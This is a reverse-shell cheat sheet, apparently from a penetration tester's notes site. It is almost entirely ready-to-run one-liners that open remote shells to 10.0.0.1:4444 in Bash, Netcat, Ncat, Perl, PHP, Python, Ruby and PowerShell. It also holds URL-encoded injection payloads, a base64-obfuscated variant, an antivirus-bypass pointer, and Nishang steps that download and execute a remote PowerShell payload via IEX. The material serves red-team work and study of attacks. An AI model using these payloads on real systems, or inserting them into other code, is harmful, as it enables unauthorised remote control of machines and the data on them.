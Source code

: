 ```yaml
---
title: Reverse Shell Cheat Sheet
description: 
tags:
    - Privilege Escalation
    - Reverse Shell
    - Windows
refs:
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
    - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
date: 2023-09-15
draft: false
---
```


First of all, we need to start a listener in local machine to get an incoming connection.

```sh
nc -lvnp 4444
```

<br />

## Bash

```sh
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'
/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'

# For URL param
/?q=bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261
/?q=`bash+-c+'bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261'`
```

### with Base64

Execute the following commands in target machine.

```bash
echo "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1" | base64
echo <base64_string> | base64 -d | bash
```

<br />

## Netcat OpenBSD

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```

<br />

## Ncat

```sh
ncat 10.0.0.1 4444 -e /bin/bash
ncat 10.0.0.1 4444 -e /bin/sh
ncat 10.0.0.1 4444 -c bash
ncat --udp 10.0.0.1 4444 -e /bin/bash

nc 10.0.0.1 4444 -e /bin/bash
nc 10.0.0.1 4444 -e /bin/sh
nc 10.0.0.1 4444 -c bash
nc --udp 10.0.0.1 4444 -e /bin/bash
```

<br />

## Perl

```sh
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

<br />

## PHP

```sh
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<br />

## Python

```sh
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

<br />

## Ruby

```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

<br />

## PowerShell

```sh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bypass Antivirus

- [powercat](https://github.com/rexpository/powercat-v2.0)

<br />

## Nishang

**[Nishang](https://github.com/samratashok/nishang)** is the Offensive PowerShell for red team, penetration testing and offensive security.

### 1. Preparing the Payload in Your Local Machine

First off, copy the payload to the current working directory.

```sh
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following code to the final line in the payload (shell.ps1).

```powershell
Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
```

### 2. Opening Wev Server in Your Local Machine

To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

```sh
python3 -m http.server 8000
```

### 3. Downloading the Payload and Executing Reverse Shell

In the target machine, download the local-hosted payload and run reverse shell.

```sh
cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
```

